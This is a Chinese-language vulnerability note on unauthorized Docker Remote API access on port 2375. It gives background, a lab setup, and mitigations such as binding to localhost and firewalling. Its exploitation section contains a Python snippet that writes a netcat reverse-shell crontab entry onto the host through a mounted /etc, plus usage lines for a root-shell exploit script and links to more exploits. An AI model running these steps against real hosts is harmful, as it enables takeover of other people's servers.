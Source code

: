Docker 未授权访问
=================

一、漏洞简介
------------

#### 1. 基础介绍

http://www.loner.fm/drops/\#\#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

docker swarm 是一个将docker集群变成单一虚拟的docker
host工具，使用标准的Docker
API，能够方便docker集群的管理和扩展，由docker官方提供，具体的大家可以看官网介绍。

漏洞发现的起因是，有一位同学在使用docker swarm的时候，发现了管理的docker
节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 404 page
not found ，然后他研究了下，发现这是 Docker Remote
API，可以执行docker命令，比如访问 http://host:2375/containers/json
会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps
的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成，然后他就开始吐槽了，这尼玛太不安全了。

然后我想了想
swarm是用来管理docker集群的，应该放在内网才对。问了之后发现，他是在公网上的几台机器上安装swarm的，并且2375端口的访问策略是开放的，所以可以直接访问。

#### 2. 测试环境配置

先关闭docker，然后开启：

    sudo service docker stop
    # 绑定Docker Remote Api在指定端口（这里是2375），可以自行测试。
    sudo docker daemon  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock

参考API规范进行渗透：https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/

操作Docker API可以使用python dockert api 完成。

pip install docker-py

API使用参考：https://docker-py.readthedocs.io/en/stable/api/\#\#client-api

二、影响范围
------------

三、复现过程
------------

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

    import docker

    client = docker.DockerClient(base_url='http://your-ip:2375/')
    data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})

写入crontab文件，成功反弹shell：![](./.resource/Docker未授权访问/media/rId26.png)

#### python脚本

https://github.com/ianxtianxt/docker\_api\_vul

-   安装类库    `pip install -r requirements.txt`

-   查看运行的容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375`

-   查看所有的容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a`

-   查看所有镜像    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l`

-   查看端口映射    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L`

-   写计划任务（centos,redhat等,加-u参数用于ubuntu等）    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口`    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口`

-   写sshkey(自行修改脚本的中公钥)    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k`

-   在容器中执行命令    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e  "id" -I 容器id`

-   删除容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器id`

-   修改client api版本    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22`

-   查看服务端api版本    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V`

#### 3.3 其他的一些exp

https://github.com/netxfly/docker-remote-api-exphttps://github.com/zer0yu/SomePoC/blob/master/Docker/Docker\_Remote\_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.pyhttps://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8

#### 4. 防护策略

-   1.修改 Docker Remote API 服务默认参数。注意：该操作需要重启 Docker
    服务才能生效。

-   2.修改 Docker 的启动参数：    定位到 DOCKER\_OPTS 中的
    tcp://0.0.0.0:2375，将0.0.0.0修改为127.0.0.1    或将默认端口 2375 改为自定义端口    为 Remote API 设置认证措施。参照 官方文档 配置 Rem

-   3.注意：该操作需要重启 Docker 服务才能生效。    修改 Docker 服务运行账号。请以较低权限账号运行 Docker
    服务；另外，可以限制攻击者执行高危命令。

-   4.注意：该操作需要重启 Docker 服务才能生效。    设置防火墙策略。如果正常业务中 API
    服务需要被其他服务器来访问，可以配置安全组策略或 iptables
    策略，仅允许指定的 IP 来访问 Docker 接口。
